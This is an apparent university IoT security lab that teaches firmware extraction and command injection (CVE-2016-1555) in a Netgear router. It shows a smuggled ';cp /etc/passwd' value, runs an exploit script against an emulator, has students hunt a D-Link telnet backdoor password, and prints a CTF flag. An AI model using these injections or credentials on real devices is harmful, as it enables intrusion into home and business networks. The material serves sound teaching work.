

# Lab 9: IoT CI & CPS


PLEASE NOTE: This lab image uses a lot of storage space (storage size is over 1GB!), so ensure you have enough space on your hard drive before proceeding.


Walkthrough video:

**IoT & CPS 9-1** [https://www.youtube.com/watch?v=nTjmkLGOJZ0](https://www.youtube.com/watch?v=nTjmkLGOJZ0)

## Intro to IoT CI & CPS

A challenge of dealing with IoT and Cyberphysical Systems in general is that the software runs on specific hardware rather than general purpose computers. Also, there are a number of different operating systems that these devices can use. IoT is different from normal computers in that they have less resources like memory to operate with and usually are diskless.

Having said that, a large number of consumer devices operate on a linux or linux-like system and so that makes analysis of these devices and even software emulation somewhat simpler.

IoT has a history of poor security. One of the principle areas of concern, and one we will look at in this lab has been the use of hard-coded passwords for remote access to the devices and leaving access to those services open by default. This is one of those "usability vs security" scenarios, and it should give you a good idea to always think about the importance of security.

## 1. Examining firmware

In this exercise, we are going to be looking at the firmware from a Netgear Wireless Router the WNAP320 which was a consumer wireless router which went on sale in 2010 but was available for several years after that. Like all consumer router devices, it provides a web interface to administer the device. It also supports remote access using Telnet and SSH which are not enabled by default. The administration function is normally accessed by being on the local network or by using a direct cable to connect to the device. Some details of the device are provided here: [https://usermanual.wiki/Netgear/NetgearWnap320QuickReferenceGuide.33658341/html](https://usermanual.wiki/Netgear/NetgearWnap320QuickReferenceGuide.33658341/html)

The device ships with a default username of `admin` and a password of `password`. This is already a problem because a large number of users would leave the device configured with the defaults and never change them. You don't have to worry too much about this nowadays as the admin passwords are now randomised before being shipped out - but it is a lingering issue.

Let us start by using the docker container as follows

```bash
sudo docker run -p 8000:8000 -it --rm uwacyber/cits1003-labs:iot 
```

Change directory to `/opt/samples/WNAP320`

In that directory is a ZIP file which is the firmware for the WNAP320 router (alternatively, you can still download the firmware from Netgear [http://www.downloads.netgear.com/files/GDC/WNAP320/WNAP320%20Firmware%20Version%202.0.3.zip](http://www.downloads.netgear.com/files/GDC/WNAP320/WNAP320%20Firmware%20Version%202.0.3.zip))

Let us unzip the file and see what it contains

```bash
unzip WNAP320\ Firmware\ Version\ 2.0.3.zip
```

```bash
Archive:  WNAP320 Firmware Version 2.0.3.zip
inflating: ReleaseNotes_WNAP320_fw_2.0.3.HTML  
inflating: WNAP320_V2.0.3_firmware.tar  
```

The file `WNAPP320V2.0.3_firmware.tar` file is another archive file (colloquially called a tarball). We can extract this using the `tar` utility:

```bash
tar -xvf WNAP320_V2.0.3_firmware.tar 
```

```bash
vmlinux.gz.uImage
rootfs.squashfs
root_fs.md5
kernel.md5
```

The `vmlinux.gz.uImage` is the actual kernel of the operating system and contains all of the code that will run that when booted on a device. The `rootfs.sqaushfs` is the file system in `squashfs` format. The files with the md5 extension are the MD5 hashes of the image and `squashfs` files. To look at the contents of the `squashfs` file, we need to extract this file and we can use the `binwalk` tool to do this:

```bash
binwalk -e rootfs.squashfs
```

```bash

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             Squashfs filesystem, big endian, lzma signature, version 3.1, size: 4433988 bytes, 1247 inodes, blocksize: 65536 bytes, created: 2011-06-23 10:46:19

root@c05e6f92e214:/opt/samples/WNAP320# ls -al
total 15868
drwxr-xr-x 1 root root    4096 Feb 15 03:21  .
drwxr-xr-x 1 root root    4096 Aug  7  2021  ..
-rw-r--r-- 1 root root    2667 Apr  3  2012  ReleaseNotes_WNAP320_fw_2.0.3.HTML
-rw-r--r-- 1 root root 5362552 Aug  7  2021 'WNAP320 Firmware Version 2.0.3.zip'
-rw-r--r-- 1 root root 5427200 Apr  3  2012  WNAP320_V2.0.3_firmware.tar
drwxr-xr-x 3 root root    4096 Feb 15 03:21  _rootfs.squashfs.extracted
-rwxr--r-- 1 root root    1130 Aug  7  2021  exploit.py
-rw-r--r-- 1 root root      36 Jun 23  2011  kernel.md5
-rw-r--r-- 1 root root      36 Jun 23  2011  root_fs.md5
-rwx------ 1 root root 4435968 Jun 23  2011  rootfs.squashfs
-rw-r--r-- 1 root root  983104 Jun 23  2011  vmlinux.gz.uImage
```

This will now extract a directory `_rootfs.squashfs.extracted` that contains `squashfs-root` which is the root of the filesystem for the firmware:

```bash
ls -al ./_rootfs.squashfs.extracted/squashfs-root/
```

```bash
total 52
drwxr-xr-x 13 root root 4096 Jun 23  2011 .
drwxr-xr-x  3 root root 4096 Feb 15 03:21 ..
drwxr-xr-x  2 root root 4096 Jun 23  2011 bin
drwxr-xr-x  3 root root 4096 Jun 23  2011 dev
drwxr-xr-x  6 root root 4096 Jun 23  2011 etc
drwxr-xr-x  4 root root 4096 Jun 23  2011 home
drwxr-xr-x  3 root root 4096 Jun 23  2011 lib
lrwxrwxrwx  1 root root   11 Feb 15 03:21 linuxrc -> bin/busybox
drwxr-xr-x  2 root root 4096 Aug 22  2008 proc
drwxr-xr-x  2 root root 4096 Aug 22  2008 root
drwxr-xr-x  2 root root 4096 Jun 23  2011 sbin
drwxr-xr-x  2 root root 4096 Aug 22  2008 tmp
drwxr-xr-x  7 root root 4096 Jun 23  2011 usr
drwxr-xr-x  2 root root 4096 Nov 11  2008 var
```

You probably recognise that this is the layout of a normal linux-based operating system.

When exploring the firmware, we would start by looking at where the source code for the management functionality is stored. In this software, that is in `/home/www` and if you look in that directory, you will find PHP files that represent the code that runs the administration website:

```bash
.../squashfs-root/home/www# ls
BackupConfig.php  boardDataWW.php  checkSession.php  data.php            header.php  index.php          login_header.php  packetCapture.php  saveTable.php   test.php        tmpl
UserGuide.html    body.php         clearLog.php      downloadFile.php    help        killall.php        logout.html       recreate.php       siteSurvey.php  thirdMenu.html
background.html   button.html      common.php        getBoardConfig.php  images      login.php          logout.php        redirect.html      support.link    thirdMenu.php
boardDataNA.php   checkConfig.php  config.php        getJsonData.php     include     login_button.html  monitorFile.cfg   redirect.php       templates       titleLogo.php
```

It turns out that there is a vulnerability in a number of these files that allows for remote command execution (RCE) that has the CVE `CVE-2016-1555`. The exploit code is listed on exploit-db here [https://www.exploit-db.com/exploits/45909](https://www.exploit-db.com/exploits/45909)

One of the affected files is `boardDataWW.php` and the specific code at fault is:

```php
if (!empty($_REQUEST['macAddress']) 
    && array_search($_REQUEST['reginfo'],Array('WW'=>'0','NA'=>'1'))!==false 
    && ereg("[0-9a-fA-F]{12,12}",$_REQUEST['macAddress'],$regs)!==false) {
    //echo "test ".$_REQUEST['macAddress']." ".$_REQUEST['reginfo'];
    //exec("wr_mfg_data ".$_REQUEST['macAddress']." ".$_REQUEST['reginfo'],$dummy,$res);
    exec("wr_mfg_data -m ".$_REQUEST['macAddress']." -c ".$_REQUEST['reginfo'],$dummy,$res);
```

This code file is responsible for showing this page to capture a MAC address for the device:



When the user enters a MAC address and clicks the submit button, the code above checks that it has been sent a valid MAC address (12 characters, alphanumeric) and a region code, and then it passes that to a command line utility called `wr_mfg_data`. If the MAC address was `f8ffc201fae5` and region code was 1, the command that would be executed would be:

```bash
wr_mfg_data -m f8ffc201fae5 -c 1
```

You will notice that there is no validation of the input to this command by the code. It just checks that the first 12 characters of the MAC address are alphanumeric. This means we can add data to the end of a valid MAC address and it will accept it. So if we add a second command to the address, it will be executed as well. To do that, we use the command separator `;` as follows:

```bash
wr_mfg_data -m f8ffc201fae5;cp /etc/passwd test.html; -c 1
```

To achieve this we would put `f8ffc201fae5;cp /etc/passwd test.html;` into the text box for the MAC address. The second command copies the password file to an HTML file test.html that we can then access from the website. However, for this to work, we need to bypass a JavaScript validation check in the browser of the MAC address but that is trivial to do, which we will do below.

### 1.1. Testing the Vulnerability

Instead of going out and buying a wireless router to test this on, we can run the firmware in an emulator. For this purpose, I have set up an emulation of this firmware so you can access the router page from your browser. You can go to the address shown in the below infobox.


Currently, the emulator is running at [http://35.226.1.51](http://35.226.1.51) (you can also check it out using your browser). If this address changes, you will see an update here.&#x20;

If the address doesn't work, please let the Unit Coordinator know.


There is an open source toolset that allows you to do that called `Firmadyne`. However, it is beyond the scope of this lab to set that up and get it running. Instead, you can access the emulator server I have setup and use the exploit script on it. To run this, you can type:

```bash
./exploit.py [IP address of the emulator (e.g., 35.226.1.51)] /etc/passwd
```

```bash
root:x:0:0:root:/root:/bin/sh
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:100:sync:/bin:/bin/sync
mail:x:8:8:mail:/var/spool/mail:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
operator:x:37:37:Operator:/var:/bin/sh
haldaemon:x:68:68:hald:/:/bin/sh
dbus:x:81:81:dbus:/var/run/dbus:/bin/sh
nobody:x:99:99:nobody:/home:/bin/sh
sshd:x:103:99:Operator:/var:/bin/sh
admin:x:0:0:Default non-root user:/home/cli/menu:/usr/sbin/cli
```

The exploit code also copies the content of the `/etc/passwd` into the `test.html` page - so if you go to the `http://[emulator address]/test.html`, you should be able to see the content of `/etc/passwd` (note that, you couldn't do this via the web interface because it got blocked by the Javascript!).


Because this emulator will be shared with other students, you may see different content inside `test.html` if the other students loaded a different content inside. However, the chances of this happening should be very low. If any issues, contact the Unit Coordinator.


If you are interested, you can look at the code in the Python script `exploit.py`. It takes two arguments, the address of the emulation and the file on the router you want to look at. Of course, the script could be changed to insert a backdoor into the router and then gain access to the network that the router is connected to (but it is outside the scope of this unit).

If you would like to setup the emulation yourself and test it, I have included the instructions in the [Setup Your Emulation on Google Cloud](lab-9-iot-ci-and-cps.md#undefined) section.

### Question 1. Exploit to find the flag 

The flag is `CITS1003{R0u73r5_5h4ll_B0w_70_7h3_H4ck3r5!}`.

Flag: Run `exploit.py` and pass the argument `flag.txt` 

## 2. Searching for Hard Coded Credentials

In this example, we are looking at firmware for the DLINK 300 wireless access point. Change directory into `/opt/samples/DIR300`. Extract the firmware file with `binwalk`.

```bash
cd /opt/samples/DIR300
binwalk -e DIR-300A1_FW105b09.bin
```

```bash

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
48            0x30            Unix path: /dev/mtdblock/2
96            0x60            LZMA compressed data, properties: 0x5D, dictionary size: 8388608 bytes, uncompressed size: 1626112 bytes
524384        0x80060         PackImg section delimiter tag, little endian size: 13638400 bytes; big endian size: 1822720 bytes
524416        0x80080         Squashfs filesystem, big endian, version 2.0, size: 1819244 bytes, 895 inodes, blocksize: 65536 bytes, created: 2010-11-26 07:22:55

root@c3e1d7ac5055:/opt/samples/DIR300# ls -al
total 2316
drwxr-xr-x 4 root root    4096 Jul 10 03:42 .
drwxr-xr-x 1 root root    4096 Jul 10 02:14 ..
-rw-r--r-- 1 root root 2347136 Feb 12  2016 DIR-300A1_FW105b09.bin
drwxr-xr-x 3 root root    4096 Jul 10 02:14 _DIR-300A1_FW105b09.bin.extracted
```

We can now cd into the directory `_DIR-300A1_FW105b09.bin.extracted` and then into the directory `squashfs-root`. Again we have a Linux filesystem

```bash
cd /opt/samples/DIR300/_DIR-300A1_FW105b09.bin.extracted/squashfs-root
ls -al
```

```bash
total 56
drwxrwsr-x 14  528 1000 4096 Nov 26  2010 .
drwxr-xr-x  3 root root 4096 Jul 10 02:14 ..
drwxrwsr-x  2  528 1000 4096 Nov 26  2010 bin
drwxrwsr-x  2  528 1000 4096 Nov 26  2010 dev
drwxrwsr-x  9  528 1000 4096 Nov 26  2010 etc
drwxrwsr-x  2  528 1000 4096 Nov 26  2010 home
drwxrwsr-x  4  528 1000 4096 Nov 26  2010 htdocs
drwxrwsr-x  4  528 1000 4096 Nov 26  2010 lib
drwxrwsr-x  2  528 1000 4096 Nov 26  2010 mnt
drwxrwsr-x  2  528 1000 4096 Nov 26  2010 proc
drwxrwsr-x  2  528 1000 4096 Nov 26  2010 sbin
lrwxrwxrwx  1  528 1000    8 Jul 10 02:14 tmp -> /var/tmp
drwxrwsr-x  5  528 1000 4096 Nov 26  2010 usr
drwxrwsr-x  2  528 1000 4096 Nov 26  2010 var
drwxrwsr-x 11  528 1000 4096 Nov 26  2010 www
```

You can explore the file system a bit to see where things are but to shortcut, we are interested in the telnet service which allows remote access to the DLINK box. If we do a search for the word telnet in all of the files we get:

```bash
grep -ir telnet *
```

```bash
etc/defnodes/S11setnodes.php:set("/sys/telnetd",                        "true");
etc/scripts/system.sh:  # start telnet daemon
etc/scripts/system.sh:  /etc/scripts/misc/telnetd.sh    > /dev/console
etc/scripts/misc/telnetd.sh:TELNETD=`rgdb -g /sys/telnetd`
etc/scripts/misc/telnetd.sh:if [ "$TELNETD" = "true" ]; then
etc/scripts/misc/telnetd.sh:    echo "Start telnetd ..." > /dev/console
etc/scripts/misc/telnetd.sh:            telnetd -l "/usr/sbin/login" -u Alphanetworks:$image_sign -i $lf &
etc/scripts/misc/telnetd.sh:            telnetd &
Binary file usr/lib/tc/q_netem.so matches
www/__adv_port.php:                                     <option value='Telnet'>Telnet</option>
```


On PowerShell, the path may not show in the console. You can copy the text and paste into a text editor to see them.


The file that is interesting is the script `telnetd.sh` where there is a login command with a `-u` flag that passes in a username (e.g., `Alphanetworks`) and password. Here, the password is passed in as a variable `image_sign`. So now let's inspect the `telnetd.sh` to see if we can find any information about `image_sign`. Keep tracking the leads and you should be able to find the password.

The dir300 is the model number and the other parts of the password don't change much between models. Others have compiled a list of possible passwords for DLINK routers ([https://github.com/rapid7/metasploit-framework/blob/master/data/wordlists/dlink\_telnet\_backdoor\_userpass.txt](https://github.com/rapid7/metasploit-framework/blob/master/data/wordlists/dlink\_telnet\_backdoor\_userpass.txt)).

### **Question 2. Enter the password**

**Flag: Enter the password to claim the flag**

Clearly it is not a good thing that the password for the router is available on a remote connection protocol like Telnet that is enabled on this router by default. DLINK has tried to improve its security including encrypting the firmware. However, even here, the key has been reverse engineered and some of the encrypted firmware that DLINK provides can be unencrypted easily.

## Case study: Rowhammer

First proposed in 2014, Rowhammer is a way to induce memory errors in modern DRAM chips by repeatedly accessing rows of memory cells with a burst of read or write operations.

Read through the following article and answer the questions below:
[https://news.sophos.com/en-us/2021/04/19/serious-security-rowhammer-is-back-but-now-its-called-smash/](https://news.sophos.com/en-us/2021/04/19/serious-security-rowhammer-is-back-but-now-its-called-smash/)


### Question 3. The Root Cause of Rowhammer

What is the root cause of unexpected bit flips in Rowhammer?&#x20;

1. CPU cache inefficiency &#x20;
2. Memory access sequences &#x20;
3. DRAM refresh cycle &#x20;
4. Repeated nanoscopic electrical activity



Submit the correct option as your flag (e.g., CITS1003{1} if option 1 is the correct answer).


### Question 4. Mitigating Rowhammer

Which of the following is used by modern DRAM chips to prevent Rowhammer? &#x20;

1. CPU cache &#x20;
2. TRR (Target Row Refresh) &#x20;
3. THP (Transparent Huge Pages) &#x20;
4. Predictable memory allocation


Submit the correct option as your flag (e.g., CITS1003{1} if option 1 is the correct answer).


### Question 5. Mitigating SMASH

Which of the following is an effective mitigation for SMASH on a Linux system? &#x20;

1. Update the browser to the latest version &#x20;
2. Use non-TRR DRAM chips &#x20;
3. Decrease the DRAM refresh frequency &#x20;
4. Turn off Transparent Huge Pages (THP)


Submit the correct option as your flag (e.g., CITS1003{1} if option 1 is the correct answer).


## \[Optional] Setup Your Emulation on Google Cloud (\~45 mins)

Running the firmware emulation is much easier on Linux systems, but most of you would have either a Windows or Mac machine. So instead, we will use the cloud, in particular Google Cloud, to setup the emulation.

#### Create Google Cloud account

If you haven't done already, create a google cloud account. For the newly joined accounts, Google (as far as I remember) provides free credit which is more than enough for you to do this. Once your account is created, create a project. You may find the tutorial provided by Google useful here.

#### Creating a VM

Emulation VM is a bit different to other VMs, as it requires nested virtualization enabled. By default, the project enables the nested virtualization, but not the VM which we have to do manually. Follow these steps to achieve this:

1. Navigation menu -> compute engine -> disks -> create disk
2. give the disk a name. e.g., `ubuntu1804`
3. select region and zone, that supports Haswell or later processors (which is the majority). For example, I just selected US central, but Syndey would also work.
4. Select the source image of ubuntu-1804-\[latest variant].
5. set the disk size - 20GB is sufficient for this emulation.
6. Create.

Now, to enable the VMX (nested virtualization), open the cloud console (activate cloud shell at the top right side). Then, type in:

```
$ gcloud compute images create [IMAGE NAME] --source-disk-zone [DISK ZONE] --source-disk [DISK NAME] \
  --licenses "https://www.googleapis.com/compute/v1/projects/vm-options/global/licenses/enable-vmx"
```

The image name is set by you (e.g., `iot-emulation-image`). Other items should be filled in from the previous steps. Once done, now we can create the VM instance:

1. compute engine -> create instance.
2. enter the name e.g., `iot-emulator`.
3. configure the hardware specs. For this emulation, `E2 small` is sufficient.
4. select the boot disk to be the image created above.
5. allow http traffic.

Now the VM is ready, we need to setup emulator inside the VM. Inside the `VM instances` tab, your newly created instance should be running. Click the `ssh` button under the `connect` column. This should bring up a separate browser with the shell.

We need the root privilege to configure networking, so we will work as root. We do this by running:

```bash
sudo passwd root
[enter your root password]
su
```

Now you should be working as root. Next, we install _Firmware Analysis Toolkit (FAT)_, which automates much of the _Firmadyne_ processes (the firmware emulator). Install by running these commands:

```bash
git clone https://github.com/attify/firmware-analysis-toolkit
cd firmware-analysis-toolkit
apt-get install -y libjpeg-dev zlib1g-dev nginx
./setup.sh
```

Next, we have to enable the web service for us to access it via the browser. Do this by installing nginx and running it.

```bash
ufw enable
ufw allow http
```

Now, open in the editor `/etc/nginx/sites-enabled/default`.

Replace the existing location block with the following:

```
location / {
	proxy_pass [address of the emulation];
}
```

For example, our NetGear WNAP320 firmware with address `192.168.0.100`, it would be:

```
location / {
	proxy_pass http://192.168.0.100;
}
```

Now, restart nginx and check it is running

```bash
service nginx restart
service nginx status
```

The output should look like this:

```bash
/etc/nginx$ service nginx status
● nginx.service - A high performance web server and a reverse proxy server
   Loaded: loaded (/lib/systemd/system/nginx.service; enabled; vendor preset: enabled)
   Active: active (running) since Thu 2022-02-17 06:40:52 UTC; 15s ago
     Docs: man:nginx(8)
  Process: 1266 ExecStart=/usr/sbin/nginx -g daemon on; master_process on; (code=exited, status=0/SUCCESS)
  Process: 1083 ExecStartPre=/usr/sbin/nginx -t -q -g daemon on; master_process on; (code=exited, status=0/SUCCESS)
 Main PID: 1283 (nginx)
    Tasks: 3 (limit: 1116)
   CGroup: /system.slice/nginx.service
           ├─1283 nginx: master process /usr/sbin/nginx -g daemon on; master_process on;
           ├─1284 nginx: worker process
           └─1285 nginx: worker process
Warning: Journal has been rotated since unit was started. Log output is incomplete or unavailable.
```

We are now ready to emulate!

1. load the firmware into the VM (e.g., `wget http://www.downloads.netgear.com/files/GDC/WNAP320/WNAP320%20Firmware%20Version%202.0.3.zip)`
2. unzip, and extract the tar file (e.g., `tar -xvf your_tar_file.tar`).
3. copy the `rootfs.squashfs` into the `firmware analysis toolkit` folder.
4. start emulation e.g., `./fat.py rootfs.squashfs`

Once the emulation is running, you can access by going to the external address of your VM. You can locate your `external IP address` of your VM in the `VM instances` tab. Press the link, and you should be able to access the router interface that you just have setup.


Once you finish playing with your emulator, make sure the **STOP** your VM - otherwise you will continue to lose your Google Cloud credit, and once it runs out you have to pay!

Also, storing disks on Google Cloud gets charged (although very small), so if you won't be using it later, delete all disks and images as well.

